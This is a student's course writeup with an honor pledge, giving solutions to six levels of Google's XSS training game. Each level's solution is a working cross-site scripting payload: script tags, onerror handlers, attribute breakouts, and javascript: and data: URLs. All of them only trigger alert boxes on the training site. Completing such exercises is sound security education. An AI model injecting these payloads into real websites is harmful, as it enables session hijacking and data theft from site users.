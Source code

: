 # Crypto II Writeup

Name: Kush Nagpal
Section: 0101

I pledge on my honor that I have not given or received any unauthorized
assistance on this assignment or examination.

Digital acknowledgement: Kush Nagpal

## Assignment Writeup

### Part 1 (40 Pts)

Website is down.  Will finish up when website goes back online.

### Part 2 (60 Pts)

Level 1:

Changed URL to https://xss-game.appspot.com/level1/frame?query=<script>alert('test')</script>

Level 2:

Enter post-content=<img src='blahblah' onerror='alert('test')'> into the search bar

Level 3:

Changed URL to https://xss-game.appspot.com/level3/frame#1'onerror='alert('test')'>

Level 4:

Enter timer=');alert('test') into search bar

Level 5:

Changed URL to https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert('test')

Level 6:

Changed URL to https://xss-game.appspot.com/level6/frame#data:text/plain,alert('test')




